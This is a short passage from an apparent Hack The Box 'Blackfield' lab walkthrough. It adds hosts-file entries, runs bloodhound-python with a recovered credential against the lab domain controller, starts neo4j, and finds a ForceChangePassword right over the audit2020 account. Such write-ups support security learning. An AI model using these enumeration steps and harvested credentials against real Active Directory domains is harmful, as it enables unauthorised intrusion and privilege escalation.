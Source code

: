 ![](/assets/img/HTB/easy/Blackfield/cme0.png)
- Try to check some file/folders and i found nothing interesting
- let use bloodhound and enumerate
- Since i cant login so i will use bloodhound-python

```
echo -n "10.10.10.192 BLACKFIELD.local" >> /etc/hosts
echo -n "10.10.10.192 DC01.BLACKFIELD.local" >> /etc/hosts
bloodhound-python -d BLACKFIELD.local -u support -p '#00^BlackKnight' -gc DC01.BLACKFIELD.local -c all -ns 10.10.10.192
```

![](/assets/img/HTB/easy/Blackfield/bloodhound.png)

- let start neo4j

```
export PATH="/usr/lib/jvm/java-11-openjdk/bin":$PATH
sudo neo4j console
```
- After analysis our users in outbound object control and i found that i have right of ForceChangePassword to audit2020
